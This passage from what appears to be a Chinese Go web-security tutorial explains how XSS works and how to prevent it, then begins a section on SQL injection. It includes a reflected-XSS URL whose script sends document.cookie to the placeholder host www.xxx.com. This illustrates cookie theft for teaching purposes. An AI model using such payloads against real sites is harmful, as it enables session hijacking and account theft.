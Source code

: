 ## XSS的原理
Web應用未對用戶提交請求的數據做充分的檢查過濾，允許用戶在提交的數據中摻入HTML代碼(最主要的是“>”、“<”)，並將未經轉義的惡意代碼輸出到第三方用戶的瀏覽器解釋執行，是導致XSS漏洞的產生原因。

接下來以反射性XSS舉例說明XSS的過程：現在有一個網站，根據參數輸出用戶的名稱，例如訪問url：`http://127.0.0.1/?name=astaxie`，就會在瀏覽器輸出如下信息：

	hello astaxie

如果我們傳遞這樣的url：`http://127.0.0.1/?name=&#60;script&#62;alert(&#39;astaxie,xss&#39;)&#60;/script&#62;`,這時你就會發現瀏覽器跳出一個彈出框，這說明站點已經存在了XSS漏洞。那麼惡意用戶是如何盜取Cookie的呢？與上類似，如下這樣的url：`http://127.0.0.1/?name=&#60;script&#62;document.location.href='http://www.xxx.com/cookie?'+document.cookie&#60;/script&#62;`，這樣就可以把當前的cookie發送到指定的站點：www.xxx.com。你也許會說，這樣的URL一看就有問題，怎麼會有人點擊？，是的，這類的URL會讓人懷疑，但如果使用短網址服務將之縮短，你還看得出來麼？攻擊者將縮短過後的url通過某些途徑傳播開來，不明真相的用戶一旦點擊了這樣的url，相應cookie數據就會被髮送事先設定好的站點，這樣子就盜得了用戶的cookie信息，然後就可以利用Websleuth之類的工具來檢查是否能盜取那個用戶的賬戶。

更加詳細的關於XSS的分析大家可以參考這篇叫做《[新浪微博XSS事件分析](http://www.rising.com.cn/newsletter/news/2011-08-18/9621.html)》的文章。

## 如何預防XSS
答案很簡單，堅決不要相信用戶的任何輸入，並過濾掉輸入中的所有特殊字符。這樣就能消滅絕大部分的XSS攻擊。

目前防禦XSS主要有如下幾種方式：

- 過濾特殊字符

	避免XSS的方法之一主要是將用戶所提供的內容進行過濾，Go語言提供了HTML的過濾函數：

	text/template包下面的HTMLEscapeString、JSEscapeString等函數

- 使用HTTP頭指定類型

	`w.Header().Set("Content-Type","text/javascript")`

	這樣就可以讓瀏覽器解析javascript代碼，而不會是html輸出。


## 總結
XSS漏洞是相當有危害的，在開發Web應用的時候，一定要記住過濾數據，特別是在輸出到客戶端之前，這是現在行之有效的防止XSS的手段。

## links
   * [目錄](<preface.md>)
   * 上一節: [確保輸入過濾](<09.2.md>)
   * 下一節: [避免SQL注入](<09.4.md>)

---

# 9.4 避免SQL注入
## 什麼是SQL注入
SQL注入攻擊（SQL Injection），簡稱注入攻擊，是Web開發中最常見的一種安全漏洞。可以用它來從數據庫獲取敏感信息，或者利用數據庫的特性執行添加用戶，導出文件等一系列惡意操作，甚至有可能獲取數據庫乃至系統用戶最高權限。

而造成SQL注入的原因是因為程序沒有有效過濾用戶的輸入，使攻擊者成功的向服務器提交惡意的SQL查詢代碼，程序在接收後錯誤的將攻擊者的輸入作為查詢語句的一部分執行，導致原始的查詢邏輯被改變，額外的執行了攻擊者精心構造的惡意代碼。
## SQL注入實例
很多Web開發者沒有意識到SQL查詢是可以被篡改的，從而把SQL查詢當作可信任的命令。殊不知，SQL查詢是可以繞開訪問控制，從而繞過身份驗證和權限檢查的。更有甚者，有可能通過SQL查詢去運行主機系統級的命令。
